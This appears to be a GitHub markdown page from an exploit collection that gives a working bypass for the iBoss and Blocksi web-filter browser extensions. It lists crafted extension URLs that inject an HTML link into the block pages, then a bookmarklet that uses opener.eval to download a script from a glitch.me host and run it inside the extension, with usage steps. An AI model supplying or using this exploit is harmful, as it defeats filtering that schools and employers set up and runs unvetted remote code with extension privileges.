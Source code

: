 ### iBoss and Blocksi Bypass
For IBoss: <br>
```js
chrome-extension://kmffehbidlalibfeklaefnckpidbodff/restricted.html?re=1&bc=%3Ca+href=%22about:blank%22%20rel=%22opener%22%20target=%22_blank%22%3EThe%20Blue%20Hat%20Crew%20is%20the%20best!%3C/a%3E
```
For Blocksi: <br>
```js
chrome-extension://ghlpmldmjjhmdgmneoaibbegkjjbonbk/pages/blockPage.html?blockurl={%22hostname%22:%22%3Ca%20href=%27//%27%20rel=%27opener%27%20target=%27_blank%27%3ETheBlueHatCrewIsTheBest%3C/a%3E%22}
```
Code: <br>
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
Instructions: <br>
1. Go to the website that matches the extension you have.
2. Bookmark the javascript then run it on that extension page.
3. Follow the instructions.

<br> **Back to [README file](https://github.com/wea-f/ByePassHub/blob/main/Exploits/README.md)** (The starting file)
